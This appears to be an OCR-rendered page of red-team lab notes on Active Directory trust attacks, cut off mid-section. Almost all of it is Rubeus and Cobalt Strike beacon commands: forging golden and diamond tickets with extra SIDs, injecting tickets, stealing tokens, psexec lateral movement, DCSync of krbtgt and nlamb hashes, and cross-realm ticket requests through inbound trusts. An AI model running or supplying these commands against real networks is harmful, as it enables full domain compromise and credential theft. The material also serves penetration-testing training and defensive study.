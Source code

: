 ```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:<aes256> /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /sids:S-1-5-21-2594061375-675613155-814674916-512 /nowrap

# Or, Use Diamond Ticket technique
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:519 /sids:S-1-5-21-2594061375-675613155-814674916-519 /krbkey:<krbtgt-aes256> /nowrap

# Inject the ticket
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFLz[...snip...]MuaW8=

beacon> steal_token 5060
beacon> run klist
beacon> ls \\dc-1.cyberbotic.io\c$
beacon> jump psexec64 dc-1.cyberbotic.io PeerSambhar
beacon> dcsync cyberbotic.io cyber\krbtgt
```
### Exploiting Inbound Trusts (Users in our domain can access resources in foreign domain)
```powershell
# We can enumerate the foreign domain with inbound trust
beacon> powerpick Get-DomainTrust
beacon> powerpick Get-DomainComputer -Domain dev-studio.com -Properties DnsHostName

# Check if members in current domain are part of any group in foreign domain
beacon> powerpick Get-DomainForeignGroupMember -Domain dev-studio.com
beacon> powerpick ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1120
beacon> powerpick Get-DomainGroupMember -Identity "Studio Admins" | select MemberName
beacon> powerpick Get-DomainController -Domain dev-studio.com | select Name

# Fetch the AES256 hash of nlamb user identfied in previous steps
beacon> dcsync dev.cyberbotic.io dev\nlamb

# We can create Inter-Realm TGT for user identified in above steps (/aes256 has users hash)
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /aes256:<aes256> /nowrap

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:krbtgt/dev-studio.com /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /ticket:doIFwj[...]MuaW8= /nowrap

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/dc.dev-studio.com /domain:dev-studio.com /dc:dc.dev-studio.com /ticket:doIFoz[...]NPTQ== /nowrap

# Inject the ticket
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFLz[...snip...]MuaW8=

beacon> steal_token 5060
beacon> run klist
beacon> ls \\dc.dev-studio.com\c$
```
### Exploiting Outbound Trusts (Users in other domain can access resources in our domain)
```powershell
# Enumerate the outbound trust (msp.com) in parent domain (cyberbotic.io)
beacon> powerpick Get-DomainTrust -Domain cyberbotic.io

# Enumerate the TDO to fetch the shared trust key
```